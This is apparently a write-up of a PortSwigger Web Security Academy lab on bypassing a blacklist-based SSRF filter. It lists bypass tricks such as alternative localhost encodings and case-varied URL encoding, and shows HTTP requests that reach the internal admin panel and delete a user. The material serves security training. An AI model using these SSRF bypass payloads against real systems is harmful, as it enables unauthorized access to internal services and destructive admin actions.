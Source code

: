 # [Lab: SSRF with blacklist-based input filter](https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter)

## Lab

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.

The developer has deployed two weak anti-SSRF defenses that you will need to bypass.

## Analysis

The blacklist method has an inherited weakness: incomplete blacklist vulnerability.

Bypass:

- Using an alternative IP representation of `127.0.0.1`: such as `2130706433`, `017700000001`, or `127.1`.
- Registering your own domain name that resolves to 127.0.0.1. You can use `spoofed.burpcollaborator.net` for this purpose.
- Obfuscating blocked strings using URL encoding or case variation.

## Exploit

1. burp's intercept:

    ```http
    POST /product/stock HTTP/1.1
    Host: 0a34000e0453e884c1de856c003300a9.web-security-academy.net
    ...

    stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1  
    ```

2. burp's repeater:

    ```http
    POST /product/stock HTTP/1.1
    Host: 0a63002b0443cd0cc3510b50006c0059.web-security-academy.net
    ...

    stockApi=http%3a//localhosT/admiN
    ```

    => bypassed

3. Solve lab:

```http
POST /product/stock HTTP/1.1
Host: 0a34000e0453e884c1de856c003300a9.web-security-academy.net

stockApi=http%3a//localhosT/admiN/delete?username=carlos
```
